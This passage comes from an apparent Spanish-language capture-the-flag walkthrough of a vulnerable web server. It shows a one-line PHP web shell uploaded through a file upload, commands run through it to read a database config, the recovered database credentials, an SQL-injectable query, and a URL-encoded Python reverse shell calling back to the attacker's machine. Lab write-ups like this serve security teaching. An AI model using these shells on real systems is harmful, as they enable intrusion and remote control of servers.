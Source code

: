 Como podemos ver, el nombre del fichero cambia a un posible hash, pero como el listado de directorios está activo en el servidor, podemos ver cuál es el nombre asignado a nuestros ficheros. Por tanto, vamos a subir una shell en un fichero llamado reverse.php (que nos permita ejecutar comandos) con el siguiente contenido:

```php
<?=`$_GET[1]`?>
```
Como podemos ver, se ha subido correctamente:

![](https://i.imgur.com/mp0uqyU.jpg)

Ahora, pasando como parámetro `1` de la petición GET a la web el comando que queramos ejecutar, podemos lanzar comandos de shell, por ejemplo un `ls` con la forma: `/_S3cr3t_G4ll3ry_F0ld3r_D0_N0t_Fuzz_1t/5cbcbb971b575bf48f61e963000f286a.php?1=ls`, obteniendo así el listado del directorio actual:

![](https://i.imgur.com/O46eQ4w.png)

Ahora, al poder ejecutar comandos, podemos ver el contenido de los directorios que queramos. Listando el directorio padre (`ls ../`), encontramos una carpeta interesante: db.

![](https://i.imgur.com/UMDWtgq.png)

Listando ese directorio (`ls ../db`), vemos el fichero db.php:

![](https://i.imgur.com/BOfNJK5.png)


Visualizamos el contenido lanzando el comando `cat ../db/db.php` con nuestra shell y analizamos el fichero.

![](https://i.imgur.com/0dvl8hs.png)

Si nos fijamos, el fichero aparece cortado. Si inspeccionamos el HTML de la web, podemos analizar el contenido completo del fichero y veremos que hemos obtenido las credenciales para la BBDD, que son:

Usuario: `phpmyadmin`
Password: `uG6#)yUJZE3"Rg&k`

Además, revisando el código podemos comprobar por qué el login inicial era vulnerable a SQL injection, concretamente en la línea:

```
$query = "Select * from users where name='$usr' and password='password' limit 1";
```

Al usuario y la contraseña no les hemos encontrado utilidad, pero es algo interesante de mencionar y que en este punto no podemos dejar pasar por alto.

Para hacer más cómodos los siguientes pasos, vamos a lanzar una shell reversa hacia nuestra máquina. Para ello, utilizaremos el siguiente comando a través de nuestra shell:

`192.168.1.11/_S3cr3t_G4ll3ry_F0ld3r_D0_N0t_Fuzz_1t/5cbcbb971b575bf48f61e963000f286a.php?1=python3%20%2Dc%20%27import%20socket%2Cos%2Cpty%3Bs%3Dsocket%2Esocket%28socket%2EAF%5FINET%2Csocket%2ESOCK%5FSTREAM%29%3Bs%2Econnect%28%28%22192%2E168%2E1%2E10%22%2C1234%29%29%3Bos%2Edup2%28s%2Efileno%28%29%2C0%29%3Bos%2Edup2%28s%2Efileno%28%29%2C1%29%3Bos%2Edup2%28s%2Efileno%28%29%2C2%29%3Bpty%2Espawn%28%22%2Fbin%2Fsh%22%29%27`
